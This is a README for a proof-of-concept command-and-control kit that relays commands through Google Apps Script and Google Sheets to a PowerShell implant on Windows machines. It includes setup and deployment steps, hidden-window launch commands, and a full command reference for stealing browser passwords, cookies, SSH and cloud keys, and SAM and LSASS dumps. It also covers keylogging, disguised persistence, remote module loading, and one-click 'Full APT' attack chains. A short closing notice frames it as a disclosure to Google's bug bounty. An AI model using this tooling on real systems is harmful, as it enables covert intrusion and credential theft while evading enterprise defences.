



# GAS-C2 — Google Apps Script Command & Control PoC

> Proof-of-concept demonstrating that Google Apps Script can be abused as a fully functional,
> bidirectional C2 channel running entirely on Google's own infrastructure —
> bypassing enterprise firewalls, proxies, DLP, and EDR without any attacker-owned infrastructure.

---

## Table of Contents

1. [Vulnerability Summary](#1-vulnerability-summary)
2. [How It Works](#2-how-it-works)
3. [Impact Analysis](#3-impact-analysis)
4. [Repository Structure](#4-repository-structure)
5. [Setup](#5-setup)
6. [Running the Agent](#6-running-the-agent)
7. [Attacker Panel](#7-attacker-panel)
8. [Command Reference](#8-command-reference)
9. [Automated Scenarios](#9-automated-scenarios)
10. [Payload Obfuscation](#10-payload-obfuscation)
11. [Legal & Ethical Notice](#11-legal--ethical-notice)

---

## 1. Vulnerability Summary

| Field | Detail |
|---|---|
| **Product** | Google Apps Script — Web App deployments |
| **Type** | Infrastructure Abuse / Unauthenticated C2 Channel |
| **Authentication** | None required (public deployment option) |
| **Privilege required** | Any Google account |
| **Impact** | RCE, credential exfiltration, keylogging, persistence, lateral movement |

### Root Cause

Google Apps Script allows any authenticated Google user to deploy a **public, unauthenticated Web App** at:

```
https://script.google.com/macros/s/<DEPLOYMENT_ID>/exec
```

This endpoint accepts arbitrary `GET` and `POST` requests from any origin with no authentication, executes server-side JavaScript with full access to Google Workspace APIs, and responds with `Content-Type: application/json` — indistinguishable from legitimate Google API traffic.

Because all traffic flows through `*.google.com` domains, it is **universally trusted** by enterprise security controls.

---

## 2. How It Works

The core idea is simple: **Google Sheets as a database, Google Apps Script as the relay**.

A victim runs `agent.ps1`. It never connects to any attacker-owned server. Instead:

1. The agent polls `https://script.google.com/macros/s/.../exec` every ~8 seconds
2. The Apps Script (`Code.gs`) reads the next pending command from a Google Sheet and returns it
3. The agent executes the command and POSTs the output back to the same endpoint
4. The output is stored in the Sheet, and the attacker panel reads it

Every byte of traffic goes to `*.google.com` over HTTPS. From a network perspective, this is indistinguishable from a user opening Google Docs.

```
┌──────────────────────────────────────────────────────────────────────┐
│                        GOOGLE INFRASTRUCTURE                         │
│                                                                      │
│   ┌──────────────────────────┐      ┌───────────────────────────┐   │
│   │      Google Sheets       │◄────►│   Apps Script Web App     │   │
│   │    (C2 "database")       │      │   Code.gs                 │   │
│   │                          │      │                           │   │
│   │  tab: Agents   (registry)│      │  doGet()  → poll/register │   │
│   │  tab: Commands (queue)   │      │  doPost() → store results │   │
│   │  tab: Results  (output)  │      │  handleQueue()  → write   │   │
│   │  tab: Logs     (audit)   │      │  handleAgents() → list    │   │
│   └──────────────────────────┘      └──────────────┬────────────┘   │
│                                                    │                │
└────────────────────────────────────────────────────┼────────────────┘
                                                     │ HTTPS (TLS 1.2)
                          ┌──────────────────────────┼──────────────────┐
                          │                          │                  │
                          ▼                          ▼                  │
              ┌───────────────────┐       ┌──────────────────────┐     │
              │    ATTACKER       │       │      VICTIM          │     │
              │                   │       │                      │     │
              │  panel.html       │       │  agent.ps1           │     │
              │  (browser UI)     │       │  (PowerShell)        │     │
              │                   │       │                      │     │
              │  queue_command.gs │       │  polls C2 every 8s   │     │
              │  (Sheets helper)  │       │  decodes + executes  │     │
              │                   │       │  XOR-encodes output  │     │
              │  Sends encrypted  │       │  POSTs result back   │     │
              │  commands via GAS │       │                      │     │
              └───────────────────┘       └──────────────────────┘     │
                          │                                            │
                          └──────── No direct connection ──────────────┘
                                (attacker and victim never communicate directly)
```

### Data Flow

```
[1] Attacker types command in panel.html
[2] Panel XOR-encodes command → sends to Apps Script via ?action=queue
[3] Apps Script appends encrypted row to Commands sheet (status=pending)
[4] Victim agent polls: GET /exec?action=poll&agent_id=<uuid>
[5] Apps Script reads next pending command → marks it "sent" → returns JSON
[6] Agent XOR-decodes command → executes → XOR-encodes output
[7] Agent POSTs result: {agent_id, cmd_id, output, metadata}
[8] Apps Script appends row to Results sheet
[9] Panel fetches results every 5s, decodes, displays in terminal
```

**No attacker infrastructure required.** No domain, no VPS, no DNS — just a Google account.

---

## 3. Impact Analysis

### Security Controls Bypassed

| Control | Status | Reason |
|---|---|---|
| Enterprise Firewall | **BYPASSED** | `script.google.com` is universally allowlisted |
| SSL / TLS Inspection | **BYPASSED** | Traffic is legitimate HTTPS to Google — certificate pinned in OS trust store |
| Proxy Filtering | **BYPASSED** | Google domains are on every proxy whitelist |
| DLP Solutions | **BYPASSED** | Exfiltrated data stored in Google Sheets on `docs.google.com` |
| Threat Intel Blocklists | **BYPASSED** | No attacker-owned IPs, domains, or C2 infrastructure |
| EDR Network Rules | **BYPASSED** | Google traffic excluded from deep packet inspection in most EDR configs |
| Attribution | **EVADED** | All infrastructure is Google-owned; no pivotable attacker assets |

### Agent Capabilities

| Category | Capabilities |
|---|---|
| **Execution** | Stateful PowerShell runspace, `cmd.exe`, background jobs, dynamic module loading |
| **Exfiltration** | Browser passwords (Chrome/Edge/Brave), session cookies, SSH keys, AWS/Azure/GCP credentials, WiFi passwords, Windows Credential Manager, SAM/LSASS dumps |
| **Surveillance** | Keylogger (Win32 API), clipboard watcher, screenshot capture |
| **Recon** | Network state, Active Directory enumeration (LDAP), firewall rules, RDP sessions, process list |
| **Discovery** | Document search (PDF/DOCX/XLSX), source code search, secret/API key pattern matching |
| **Persistence** | Scheduled Task (AtLogon), HKCU Run registry key, self-copy to `%APPDATA%` |
| **Post-Expl.** | Chunked file upload/download, lateral movement enumeration |

---

## 4. Repository Structure

```
gas-c2-poc/
│
├── Code.gs              # Apps Script C2 server — deploy this as a Web App
├── queue_command.gs     # Attacker helper — queue commands directly to the Sheet
├── agent.ps1            # PowerShell agent for Windows victims (full C2 client)
├── panel.html           # Attacker control panel (open as local file in browser)
├── check.ps1            # Quick C2 connectivity and agent status check
├── assets/              # Panel screenshots for documentation
└── README.md            # This file
```

**`Code.gs`** — The C2 relay. Deployed as a Google Apps Script Web App. Exposes `doGet()` and `doPost()` endpoints. Reads/writes the Google Sheet. All agent communication flows through this file.

**`agent.ps1`** — The victim-side implant. A self-contained PowerShell script that registers with the C2, polls for commands in a loop, executes them in a persistent runspace, and returns output. Features anti-sandbox, keylogger, clipboard watcher, chunked file transfer, and dynamic module loading.

**`panel.html`** — A static HTML file (no server required) that serves as the operator dashboard. Connects directly to the Apps Script Web App, queues commands, displays live results, and handles special output types (screenshots, file transfers, keylog dumps).

**`queue_command.gs`** — Helper script for queuing commands and running multi-stage attack scenarios directly via the Google Sheets API, without needing the panel.

---

## 5. Setup

### 1. Create the Google Sheet

Go to [sheets.google.com](https://sheets.google.com), create a blank spreadsheet, and copy the Sheet ID from the URL:

```
https://docs.google.com/spreadsheets/d/  [COPY THIS]  /edit
```

### 2. Create the Apps Script Project

Go to [script.google.com](https://script.google.com) → New project. Delete the placeholder, paste `Code.gs`, and update line 21:

```javascript
const CONFIG = {
  SHEET_ID: "YOUR_SHEET_ID_HERE",   // ← paste your Sheet ID here
  TOKEN:    "gas-c2-vrp-2026",
  ...
};
```

Save with `Ctrl+S`.

### 3. Initialize the Sheet tabs

In the Apps Script editor: select `setupSheets` from the function dropdown → **Run** → accept the permissions popup.

Your Sheet will get 4 tabs: `Agents`, `Commands`, `Results`, `Logs`.

### 4. Deploy as Web App

**Deploy → New deployment → Web App**, with these settings:

| Setting | Value |
|---|---|
| Description | `C2 PoC v1.1` |
| Execute as | **Me** |
| Who has access | **Anyone** ← *this is the vulnerability* |

Copy the resulting URL:
```
https://script.google.com/macros/s/AKfycbx.../exec
```

> **Note:** The "Anyone" option creates a public, unauthenticated endpoint on Google's domain. This URL requires no login to access and accepts arbitrary requests from any origin.

### 5. Open the panel

Open `panel.html` directly in a browser (no server needed). Paste the Web App URL, verify the token matches `CONFIG.TOKEN` in `Code.gs`, and click **Connect**.

### 6. (Optional) Configure `queue_command.gs`

If you want to queue commands via the helper script instead of the panel:

1. Open a second Apps Script project (or add a new file to the same project)
2. Paste `queue_command.gs`
3. Update `ATK_CONFIG.SHEET_ID` with your Sheet ID
4. Run functions like `demoReconSweep()` or `scenarioFullAPT()` directly from the editor

---

## 6. Running the Agent

```powershell
# Basic
powershell -ep bypass -File agent.ps1 -C2Url "https://script.google.com/macros/s/YOUR_ID/exec"

# Hidden window — simulates phishing payload delivery
powershell -ep bypass -w hidden -NonInteractive -File agent.ps1 -C2Url "https://..."

# Custom poll interval and XOR key
powershell -ep bypass -File agent.ps1 -C2Url "https://..." -PollInterval 15 -XorKey "CUSTOM_KEY"
```

| Parameter | Default | Description |
|---|---|---|
| `-C2Url` | (required) | Web App URL from Step 4 |
| `-PollInterval` | `8` | Seconds between command polls |
| `-Token` | `gas-c2-vrp-2026` | Shared secret — must match `CONFIG.TOKEN` in `Code.gs` |
| `-XorKey` | `GAS_VRP_2026_K` | XOR obfuscation key — must match panel's `XOR_KEY` constant |

On first run: anti-sandbox checks, UUID generation, system fingerprinting, C2 registration, then polling loop.

### Restarting After Code Updates

The agent loads the script **once at startup** — changes to `agent.ps1` on disk require a process restart. If persistence was previously installed:

```powershell
# Via panel: remove old persistence, stop agent, re-run, reinstall persistence
unpersist       # removes scheduled task + registry key
kill-agent      # stops the running agent process
# then re-run agent.ps1 on the victim machine
persist         # re-run after new agent connects
```

---

## 7. Attacker Panel

Open `panel.html` locally — no web server needed. All API calls go directly to the Apps Script Web App.



The sidebar lists all registered agents with live/inactive status (green dot = active within last 2 minutes). Select a specific agent to target, or leave `*` to broadcast to all.

### Scenarios tab — one-click attack chains



| Scenario | Commands queued |
|---|---|
| Credential Sweep | `whoami · sysinfo · av · creds · wifi · history · cloud-keys · ssh-keys · browser-creds · browser-cookies · env` |
| Network & AD Recon | `ipconfig · netstat · arp · route · dns-cache · shares · domain-info · ldap-users · ldap-groups · rdp-sessions · firewall · ps · tasks · users · groups · keylog start · screenshot` |
| Document Hunt | `find-docs · find-code · find-secrets` |
| Persistence + Lateral Prep | `persist · keylog start · clip-watch start · screenshot · ldap-users · shares` |
| Full APT Chain | All four scenarios in sequence (~35 commands) |

### Info tab — built-in command reference



### Special Output Handling

The panel automatically detects and renders special result types:

| Prefix | Handling |
|---|---|
| `SCREENSHOT_B64:` | Renders inline as PNG image; click to open full-size |
| `FILE_B64:` | Auto-downloads the file to the browser's download folder |
| `CHUNK:` | Reassembles multi-chunk file transfers before offering download |
| `bg-` cmd_id | Marks result as a background job completion |
| `keylog-auto-` cmd_id | Marks result as an automatic keylogger exfil |

---

## 8. Command Reference

All commands are XOR-encoded before storage in the Sheet and decoded by the agent before execution.

### Recon & System

| Command | Description |
|---|---|
| `ping` | Liveness check — returns agent UUID and timestamp |
| `whoami` | `DOMAIN\Username` |
| `hostname` | Computer name |
| `sysinfo` | Full JSON: host, user, OS, arch, IP, PS version, admin status, AV products |
| `ps` | Running processes (Name, PID, CPU%, RAM MB), sorted by CPU |
| `users` / `groups` | Local user accounts and groups with last logon time |
| `drives` | Filesystem drives (type, size, free space) |
| `tasks` | Currently running scheduled tasks |
| `env` | All environment variables |
| `av` | Installed AV/EDR products via `SecurityCenter2` WMI namespace |
| `clipboard` | Current clipboard contents |
| `history` | Last 100 lines of PowerShell PSReadLine command history |
| `wifi` | WiFi profiles and cleartext passwords (`netsh wlan show profile key=clear`) |
| `creds` | Stored Windows credentials (`cmdkey /list`) |
| `screenshot` | Full-screen PNG captured via `System.Drawing`, returned as base64 |
| `agent-info` | Agent runtime state: uptime, C2 URL, poll interval, background jobs, keylogger status |

### Stateful Shell

The agent maintains a **persistent PowerShell runspace** across commands. Variables, imported modules, and working directory all survive between separate commands.

| Command | Description |
|---|---|
| `shell <code>` | Execute arbitrary PowerShell in the persistent runspace |
| `cd <path>` | Change directory in the runspace (persists across commands) |
| `pwd` | Current working directory in the runspace |
| `set-var <name> <value>` | Set a runspace variable — available in subsequent `shell` commands |
| `get-var <name>` | Read a runspace variable |
| `reset-shell` | Close and recreate the runspace — clears all state, variables, and loaded modules |

### File System

| Command | Description |
|---|---|
| `ls [path]` | Directory listing (default: runspace current directory) |
| `cat <path>` | Read and return file contents |
| `type <path>` | Alias for `cat` |
| `upload <path>` | Exfiltrate a file. Small files returned as `FILE_B64:<name>:<base64>`. Large files automatically split into 6.5 KB chunks, reassembled by the panel. |
| `download <url> [dest]` | Download a file from a URL to the victim machine |

### Execution

| Command | Description |
|---|---|
| `cmd <command>` | Execute via `cmd.exe /c` — no persistent state |
| `kill <pid>` | Terminate a process by PID |
| `sleep <seconds>` | Agent sleeps for N seconds before next poll |

### Background Jobs

| Command | Description |
|---|---|
| `bg <command>` | Launch command in a background runspace. Results auto-posted to C2 with `cmd_id: bg-J1`. |
| `jobs` | List all background jobs with status (RUNNING/DONE), elapsed time, and command |
| `job <id>` | Fetch result of a completed job (e.g. `job J2`) |

### Keylogger

Win32 API-based keylogger running in a separate `Start-Job` process. Captures window titles and keystrokes. Auto-exfiltrates every 60 seconds if buffer ≥ 100 characters.

| Command | Description |
|---|---|
| `keylog start` | Start the keylogger |
| `keylog stop` | Stop and clean up |
| `keylog dump` | Return and clear the current keystroke buffer |

### Clipboard Watcher

| Command | Description |
|---|---|
| `clip-watch start` | Start clipboard monitoring (polls every 2s) |
| `clip-watch stop` | Stop clipboard monitoring |
| `clip-watch dump` | Return and clear all captured clipboard entries |

### Credential Exfiltration

| Command | Description |
|---|---|
| `browser-creds` | Chrome, Edge, Brave `Login Data` + `Local State` (DPAPI-encrypted AES-256 master key) |
| `browser-cookies` | Chrome/Edge/Brave `Cookies` databases — all profiles, including `Network\Cookies` path |
| `ssh-keys` | SSH private keys from `~/.ssh/`, `C:\Users\*\.ssh\`, and `*.pem`/`*.ppk` files |
| `cloud-keys` | AWS `~/.aws/credentials`, Azure `~/.azure/`, GCP `~/.config/gcloud/`, Docker, Kubernetes |
| `sam-dump` | Dumps `HKLM\SAM` and `HKLM\SYSTEM` registry hives (requires admin) |
| `lsass-dump` | LSASS minidump via `comsvcs.dll MiniDump` (requires admin + SeDebugPrivilege) |

### Document & Code Discovery

| Command | Description |
|---|---|
| `find-docs [ext] [path]` | Find documents in `%USERPROFILE%`. Default: `pdf docx xlsx pptx doc xls csv`. |
| `find-code [path]` | Find source code files and Git repositories (`.cs .py .js .ts .ps1 .env .yaml` …) |
| `find-secrets [path]` | Grep text files for credential patterns: API keys, AWS keys, GitHub PATs, tokens |

### Network

| Command | Description |
|---|---|
| `netstat` | Active TCP/UDP connections with PIDs (`netstat -ano`) |
| `ipconfig` | Network adapters and IPs (`ipconfig /all`) |
| `arp` | ARP cache — reveals other hosts on the local network segment |
| `route` | IP routing table |
| `dns-cache` | DNS resolver cache (`ipconfig /displaydns`) |
| `shares` | SMB shares (`net share` + `Get-SmbShare`) |
| `domain-info` | Active Directory domain: name, forest, PDC, domain controllers, functional level |
| `ldap-users` | All AD user accounts via LDAP: sAMAccountName, displayName, email, enabled status |
| `ldap-groups` | All AD security groups: name, member count, description |
| `rdp-sessions` | Active logon sessions (`query session` + `Win32_LogonSession`) |
| `firewall` | Enabled Windows Firewall rules (name, direction, action, profile) |
| `fetch-url <url>` | HTTP GET from the victim's network context |

### Dynamic Module Loading

| Command | Description |
|---|---|
| `load-module <url>` | Download a PowerShell script from a URL and execute it in the persistent runspace |
| `list-modules` | List all modules loaded in the current session |

### Reconfiguration (live — no restart needed)

| Command | Description |
|---|---|
| `set-interval <seconds>` | Change the poll interval |
| `set-jitter <seconds>` | Change the random jitter added to each poll (default: 4s) |
| `set-c2 <url>` | Redirect the agent to a different C2 endpoint |

### Persistence & Lifecycle

| Command | Description |
|---|---|
| `persist` | Scheduled Task (AtLogon) + HKCU Run key. Agent copied to `%APPDATA%\Microsoft\Windows\WinUpdate\WinUpdateSvc.ps1`. |
| `unpersist` | Removes the scheduled task, registry key, and the copied script file |
| `kill-agent` | Stops the agent loop cleanly |
| `selfdel` | Deletes `agent.ps1` from disk after a 3-second delay |

---

## 9. Automated Scenarios

Scenarios queue multiple commands automatically with 350 ms delay between each. Run them from the **Scenarios tab** in the panel or via `queue_command.gs`.

### Scenario 1 — Credential Sweep

```
whoami · sysinfo · av · creds · wifi · history ·
cloud-keys · ssh-keys · browser-creds · browser-cookies · env
```

### Scenario 2 — Network & AD Recon

```
whoami · sysinfo · ipconfig · netstat · arp · route · dns-cache ·
shares · domain-info · ldap-users · ldap-groups · rdp-sessions · firewall ·
ps · tasks · users · groups · keylog start · screenshot
```

### Scenario 3 — Document Hunt

```
find-docs · find-code · find-secrets
```

### Scenario 4 — Persistence & Lateral Prep

```
persist · keylog start · clip-watch start · screenshot · ldap-users · shares
```

### Scenario 5 — Full APT Chain

Runs all four scenarios in sequence (~35 commands queued automatically).

```
Scenario 1 (Creds) → Scenario 2 (Recon) → Scenario 3 (Docs) → Scenario 4 (Persist)
```

### Running via `queue_command.gs`

```javascript
// Broadcast to all connected agents
scenarioFullAPT("*");

// Target a specific agent
scenarioCreds("ec8702b3-1234-5678-abcd-ef0123456789");

// Custom single command
queueCommand("*", "shell Get-Content $env:USERPROFILE\\.ssh\\config");
```

---

## 10. Payload Obfuscation

All commands and outputs are **XOR-encoded + Base64** before being written to Google Sheets. Google cannot read the plaintext content of commands or results.

```
Panel  →  XOR encode  →  Apps Script  →  Sheet (base64)  →  Agent  →  XOR decode  →  execute
Agent  →  XOR encode  →  Apps Script  →  Sheet (base64)  →  Panel  →  XOR decode  →  display
```

`Code.gs` never decrypts anything. It stores and forwards blobs as opaque strings.

### XOR Algorithm

```python
# Python equivalent for offline analysis / decoding Sheet contents
import base64

def xor_decode(b64_string, key):
    data = base64.b64decode(b64_string)
    key_bytes = key.encode('utf-8')
    return bytes(b ^ key_bytes[i % len(key_bytes)] for i, b in enumerate(data)).decode('utf-8')

decoded = xor_decode("<base64_from_sheet>", "GAS_VRP_2026_K")
```

### Key Configuration

The XOR key must be identical in all components:

| Component | Location |
|---|---|
| `agent.ps1` | `-XorKey` parameter (default: `GAS_VRP_2026_K`) |
| `panel.html` | `const XOR_KEY = "GAS_VRP_2026_K"` (line ~764) |
| Auth token | `CONFIG.TOKEN` in `Code.gs` / `-Token` in `agent.ps1` |

---

## 11. Legal & Ethical Notice

This repository was created exclusively for **responsible disclosure** to Google's Vulnerability Reward Program.

- All testing was performed in an isolated lab environment with no real victims
- No production systems, real credentials, or third-party data were accessed
- The PoC code is published as part of the VRP submission to allow Google engineers to reproduce and validate the findings
- Reproduction of this technique against systems you do not own or have explicit written permission to test is illegal and unethical

*Security research must be conducted responsibly. The goal of this disclosure is to help Google improve the security of Apps Script for all users.*
